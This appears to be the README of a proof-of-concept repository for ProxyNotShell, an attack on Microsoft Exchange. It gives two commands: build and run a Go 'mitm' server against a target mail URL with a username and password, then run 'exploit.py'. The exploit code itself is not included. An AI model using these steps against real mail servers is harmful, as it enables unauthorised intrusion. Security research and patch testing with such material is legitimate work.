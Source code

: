 # proxynotshell
[PoC] ProxyNotShell

# 1. Run mitm server
```
go build && ./mitm -target https://mail.domain.corp -user 'user@domain.corp' -pass 'passwd'
```

2. Run wsman
```
python3 exploit.py
```
